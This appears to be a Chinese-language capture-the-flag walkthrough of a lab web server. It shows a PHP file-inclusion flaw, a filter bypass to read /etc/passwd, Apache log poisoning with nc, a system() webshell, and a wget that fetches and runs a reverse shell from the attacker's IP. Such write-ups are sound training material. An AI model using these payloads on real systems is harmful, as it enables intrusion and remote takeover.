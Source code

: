 			```php
			<!DOCTYPE HTML>
			<html>

			<head>
				<title>INCLUDE</title>
				<h1>Test Page. Not to be Deployed</h1>

				</button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
					<?php

						//FLAG: thm{explo1t1ng_lf1}

						function containsStr($str, $substr) {
							return strpos($str, $substr) !== false;
						}
						if(isset($_GET["view"])){
						if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
							include $_GET['view'];
						}else{

							echo 'Sorry, Thats not allowed';
						}
					}
					?>
				</div>
			</body>
			```
			- 又撿到一個 flag `thm{explo1t1ng_lf1}`
			- 觀察原始碼發現，網址裡不能出現 `../..` 且一定要出現 `/var/www/html/development_testing`
				- `../..` 可以用 `.././..` 繞
			- 測試 `curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././etc/passwd`
			- 成功!!
			- ![](https://i.imgur.com/zGil911.png)

- 來看 apache access log
	- `/var/log/apache2/access.log`
	- `curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log`
	- 成功 !!![](https://i.imgur.com/WYHb6LH.png)
	- 往上拉發現所有的 host log 都在這邊，所以可以直接針對 ip 來做 nc 寫 php
		- `nc 10.10.163.60 80`
		- `GET /?<?php phpinfo(); ?>`
		- ![](https://i.imgur.com/MiuNtLX.png)
- 再回去看一次 access log
	- http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log
	- 成功出現 phpinfo !!
	- ![](https://i.imgur.com/XqQ4scJ.png)
- 寫入 webshell
	- `nc 10.10.163.60 80`
	- `GET /<?php system($_GET[A]); ?>`
		- ![](https://i.imgur.com/wGnyObt.png)
		- http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log&A=ls
			- ![](https://i.imgur.com/JHfk4lv.png)
- 下載 reverse shell
	- `http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log&B=wget 10.13.21.55:8000/s -O /tmp/s`
		- ![](https://i.imgur.com/GDeKuQ2.png)
		- 本地準備監聽 `nc -vlk 7877`
		- 執行 shell `http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log&B=bash%20/tmp/s`